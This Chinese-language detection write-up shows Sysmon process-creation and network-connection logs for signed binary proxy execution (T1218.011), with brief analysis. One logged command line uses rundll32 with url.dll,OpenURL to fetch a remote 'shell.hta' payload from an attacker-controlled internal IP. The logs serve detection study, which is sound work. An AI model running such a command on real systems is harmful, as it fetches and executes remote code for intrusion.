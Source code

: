 ### Sysmon日志（Event ID 1：进程创建）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 1
任务类别: Process Create
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Process Create:
RuleName: technique_id=T1218.011,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.994
ProcessGuid: {bb1f7c32-2149-5e9b-0000-00107066a000}
ProcessId: 2900
Image: C:\Windows\System32\rundll32.exe
FileVersion: 6.1.7600.16385
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe url.dll,OpenURL http://192.168.126.146/shell.hta
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-5fc3-5e99-0000-00201ae20600}
LogonId: 0x6e21a
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=963B55ACC8C566876364716D5AAFA353995812A8
ParentProcessGuid: {bb1f7c32-20fc-5e9b-0000-0010bd868700}
ParentProcessId: 3808
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\System32\cmd.exe"
```

**分析**：
- 日志记录`rundll32.exe`调用`url.dll,OpenURL`加载远程HTA。
- 父进程为`cmd.exe`，提示通过命令行触发。

### Sysmon日志（Event ID 3：网络连接）

```xml
日志名称: Microsoft-Windows-Sysmon/Operational
来源: Microsoft-Windows-Sysmon
日期: 2023/10/01 10:00:00
事件 ID: 3
任务类别: Network connection detected
级别: 信息
用户: 12306Br0-PC\12306Br0
计算机: 12306Br0-PC
描述:
Network connection detected:
RuleName: technique_id=T1218.011,technique_name=Signed Binary Proxy Execution
UtcTime: 2023-10-01 02:00:00.123
ProcessGuid: {bb1f7c32-2149-5e9b-0000-00107066a000}
ProcessId: 2900
Image: C:\Windows\System32\rundll32.exe
Protocol: tcp
DestinationIp: 192.168.126.146
DestinationPort: 80
DestinationHostname: 192.168.126.146
```
